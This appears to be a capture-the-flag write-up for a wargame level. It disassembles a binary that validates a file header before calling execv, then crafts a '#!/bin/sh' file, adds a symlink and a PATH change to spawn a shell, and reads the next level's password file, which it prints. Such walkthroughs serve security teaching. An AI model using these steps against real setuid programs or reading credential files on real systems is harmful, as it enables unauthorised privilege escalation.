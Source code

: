 disassembly:
```assembly
   0x080485fb <+0>:	push   ebp
   0x080485fc <+1>:	mov    ebp,esp
   0x080485fe <+3>:	sub    esp,0xb0
   0x08048604 <+9>:	cmp    DWORD PTR [ebp+0x8],0x2		#check for 2 args in envp
   0x08048608 <+13>:	je     0x8048624 <main+41>
   0x0804860a <+15>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804860d <+18>:	mov    eax,DWORD PTR [eax]
   0x0804860f <+20>:	push   eax
   0x08048610 <+21>:	push   0x80487e0
   0x08048615 <+26>:	call   0x8048440 <printf@plt>
   0x0804861a <+31>:	add    esp,0x8
   0x0804861d <+34>:	push   0xffffffff
   0x0804861f <+36>:	call   0x80484a0 <exit@plt>
   0x08048624 <+41>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048627 <+44>:	add    eax,0x4
   0x0804862a <+47>:	mov    eax,DWORD PTR [eax]
   0x0804862c <+49>:	push   0x0
   0x0804862e <+51>:	push   eax
   0x0804862f <+52>:	call   0x80484b0 <open@plt>		#try to open the file
   0x08048634 <+57>:	add    esp,0x8
   0x08048637 <+60>:	mov    DWORD PTR [ebp-0x4],eax
   0x0804863a <+63>:	cmp    DWORD PTR [ebp-0x4],0x0
   0x0804863e <+67>:	jns    0x8048654 <main+89>		#check for error (cant open / not a file)
   0x08048640 <+69>:	push   0x80487f6
   0x08048645 <+74>:	call   0x8048470 <perror@plt>
   0x0804864a <+79>:	add    esp,0x4
   0x0804864d <+82>:	push   0xffffffff
   0x0804864f <+84>:	call   0x80484a0 <exit@plt>
   0x08048654 <+89>:	mov    eax,DWORD PTR [ebp+0xc]		#if good, we are here
   0x08048657 <+92>:	add    eax,0x4
   0x0804865a <+95>:	mov    eax,DWORD PTR [eax]
   0x0804865c <+97>:	lea    edx,[ebp-0xb0]
   0x08048662 <+103>:	push   edx				#buffer to write to
   0x08048663 <+104>:	push   eax				#filename
   0x08048664 <+105>:	call   0x80487a0 <stat>			#get file status
   0x08048669 <+110>:	add    esp,0x8
   0x0804866c <+113>:	test   eax,eax				#check if stat went fine
   0x0804866e <+115>:	jns    0x8048684 <main+137>		#if good jmp
   0x08048670 <+117>:	push   0x80487fb
   0x08048675 <+122>:	call   0x8048470 <perror@plt>		#exit with error otherwise
   0x0804867a <+127>:	add    esp,0x4
   0x0804867d <+130>:	push   0xffffffff
   0x0804867f <+132>:	call   0x80484a0 <exit@plt>
   0x08048684 <+137>:	push   0x34				#continue here
   0x08048686 <+139>:	lea    eax,[ebp-0x38]
   0x08048689 <+142>:	push   eax
   0x0804868a <+143>:	push   DWORD PTR [ebp-0x4]
   0x0804868d <+146>:	call   0x8048430 <read@plt>		#read 52 bytes from file
   0x08048692 <+151>:	add    esp,0xc
   0x08048695 <+154>:	mov    eax,DWORD PTR [ebp-0x1c]
   0x08048698 <+157>:	push   0x0				#mode, 0 = seek offset
   0x0804869a <+159>:	push   eax				#offset = position 29 - 32 in file
   0x0804869b <+160>:	push   DWORD PTR [ebp-0x4]		#file pointer
   0x0804869e <+163>:	call   0x8048450 <lseek@plt>		#reposition the file pointer
   0x080486a3 <+168>:	add    esp,0xc
   0x080486a6 <+171>:	push   0x20
   0x080486a8 <+173>:	lea    eax,[ebp-0x58]
   0x080486ab <+176>:	push   eax
   0x080486ac <+177>:	push   DWORD PTR [ebp-0x4]
   0x080486af <+180>:	call   0x8048430 <read@plt>		#read 32 bytes (after offset of our choice)
   0x080486b4 <+185>:	add    esp,0xc
   0x080486b7 <+188>:	mov    eax,DWORD PTR [ebp-0x4c]		#move place 12 (after offset) to eax
   0x080486ba <+191>:	movzx  edx,BYTE PTR [ebp-0x31]		#move place 8 (no offset) in file to dx
   0x080486be <+195>:	movzx  ecx,dl				#move the same to cx
   0x080486c1 <+198>:	movzx  edx,BYTE PTR [ebp-0x30]		#move place 9 (no offset) to dx
   0x080486c5 <+202>:	movzx  edx,dl				#same
   0x080486c8 <+205>:	imul   edx,ecx				#signed multiply them both, store in edx
   0x080486cb <+208>:	cmp    eax,edx				#compare to eax
   0x080486cd <+210>:	jne    0x80486fa <main+255>		#if not equal, exit
   0x080486cf <+212>:	mov    eax,DWORD PTR [ebp-0x84]		
   0x080486d5 <+218>:	cmp    eax,0x77
   0x080486d8 <+221>:	jg     0x80486fa <main+255>		# if length of file > 0x77 = 119 jump to exit (its not)
   0x080486da <+223>:	push   0x8048800
   0x080486df <+228>:	call   0x8048490 <puts@plt>		#"valid file, executing"
   0x080486e4 <+233>:	add    esp,0x4
   0x080486e7 <+236>:	mov    eax,DWORD PTR [ebp+0xc]
   0x080486ea <+239>:	add    eax,0x4
   0x080486ed <+242>:	mov    eax,DWORD PTR [eax]
   0x080486ef <+244>:	push   0x0
   0x080486f1 <+246>:	push   eax				#execute the file!
   0x080486f2 <+247>:	call   0x80484d0 <execv@plt>		#execute something...
   0x080486f7 <+252>:	add    esp,0x8
   0x080486fa <+255>:	mov    eax,ds:0x8049aa8			#"file not executed" section...
   0x080486ff <+260>:	push   eax
   0x08048700 <+261>:	push   0x12
   0x08048702 <+263>:	push   0x1
   0x08048704 <+265>:	push   0x8048816
   0x08048709 <+270>:	call   0x8048480 <fwrite@plt>
   0x0804870e <+275>:	add    esp,0x10
   0x08048711 <+278>:	push   DWORD PTR [ebp-0x4]
   0x08048714 <+281>:	call   0x80484e0 <close@plt>
   0x08048719 <+286>:	add    esp,0x4
   0x0804871c <+289>:	mov    eax,0x0
   0x08048721 <+294>:	leave  
   0x08048722 <+295>:	ret
```

so, to trick the program, we create the sequence:
"AAAABBBBCCCCDDDDEEEEFFFFGGGG!!!!ABCDEFGHIJKLMNOPQRSTUVXYWZ"
where !!!!, is where in hex, to read from the file (change the offset to 0x!!!! and read 32 bytes)

then we have to pass the multiplying test: B * C == MNOP
so we'll put:
"AAAABBB\x01\x01CCCDDDDEEEEFFFFGGGG\x20\x00\x00\x00ABCDEFGHIJKL\x01\x00\x00\x00QRSTUVXYWZ"

it gets executed!

no we want to put in it a shell: google the usage...
	"pathname must be either a binary executable, or a script starting
	 with a line of the form: #!interpreter [optional-arg]"

--> "#!/bin/shCCCDDDDEEEEFFFFGGGG\x20\x00\x00\x00ABCDEFGHIJKL\x01\x00\x00\x00QRSTUVXYWZ"
where s,h are to be multiplied --> change to s * h = 11960 = 0x2eb8:
--> "#!/bin/sh\x0aAAAAAAAAAAAAAAAAA\x0a\x20\x00\x00\x00ABCDEFGHIJKL\xb8\x2e\x00\x00QRSTUVXYWZ"
```sh
chmod +x a
ln -s /bin/sh AAAAAAAAAAAAAAAAA
PATH=.:PATH
$ cat /etc/maze_pass/maze5
ishipaeroo
```

we get:
ishipaeroo



